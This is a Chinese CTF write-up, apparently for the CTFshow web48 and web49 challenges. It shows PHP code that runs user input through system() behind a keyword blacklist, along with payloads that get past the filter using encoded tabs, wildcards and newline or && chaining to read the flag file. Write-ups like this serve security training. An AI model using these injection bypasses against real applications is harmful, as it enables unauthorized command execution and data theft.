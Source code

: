过滤了更多的命令 用上一个payload接着打

```perl
tac%09fla?.php%0a
tac%09fla?.php%26%26ls
```

## web48

```php
 
 
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

好像还是可以接着打

只是过滤了更多的命令和 内联执行

```perl
tac%09fla?.php%0a
tac%09fla?.php%26%26ls
```

## web49

```php
 
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

但是我们这个在浏览器解析 自动会解析为 tab和换行

所以过滤无法过滤

所以接着打

```perl
tac%09fla?.php%0a
tac%09fla?.php%26%26ls
```
